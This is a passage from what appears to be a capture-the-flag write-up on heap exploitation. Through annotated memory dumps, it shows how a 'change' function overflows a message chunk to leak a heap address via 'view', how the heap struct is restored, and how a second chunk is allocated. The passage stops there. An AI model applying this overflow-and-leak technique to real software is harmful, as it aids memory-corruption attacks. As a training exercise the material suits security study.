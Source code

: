 ```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000400           # Top chunk
0x603020:      0x0000000000000000      0x0000000000603000
0x603030:      0x0000000000000000      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000000
0x603050:      0x0000000000000000      0x0000000000000000
```

Leave an message of size 8:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x00000000000003d0           # Top chunk
0x603050:      0x0000000000000000      0x0000000000603018
```

Use `change` to overflow, then leak the heap address:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x4141414141414141      0x4141414141414141
0x603040:      0x4141414141414141      0x4141414141414141           # Top chunk
0x603050:      0x4141414141414141      0x0000000000603018
```

Here use the `view` function. It will output `'A'*40 + '\x18\x30\x60'`. The offset to the head of heap will be fixed.


Second, use `change` again to recover the heap struct since we don't want to mess up the heap struct. The struct will be the same as the second layout:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x00000000000003d0           # Top chunk
0x603050:      0x0000000000000000      0x0000000000603018
```

Third, leave another message of size 8:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000031           # Second message
0x603050:      0x0000000000603018      0x0000000000603018
0x603060:      0x0000000042424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
```

